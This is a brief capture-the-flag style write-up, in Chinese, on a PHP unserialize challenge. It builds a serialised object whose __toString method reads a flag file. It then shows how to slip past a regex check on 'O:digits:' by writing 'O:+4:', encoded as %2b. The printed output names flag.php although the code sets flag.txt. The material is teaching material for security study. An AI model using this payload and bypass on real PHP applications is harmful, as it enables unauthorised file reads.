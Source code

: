 # Unserialize

## 序列化

```php
class what {
    public $filename;
    var $text;
    function __toString() {
        return @file_get_contents($this->filename);
    }
}
$a = new what();
$a->filename = "flag.txt";
$a->text = "??!!@@$$5%%???";
$param = serialize($a);
echo $param;
```

O:4:"what":2:{s:8:"filename";s:8:"flag.php";s:4:"text";s:14:"??!!@@$$5%%???";}

## 正则

```php
!(bool)preg_match("/^O:[0-9]+:/s", $param);
```

O:+4:...绕过

由于在url中+会被识别为空格，故需用+的url编码%2b替换，即O:%2b4:...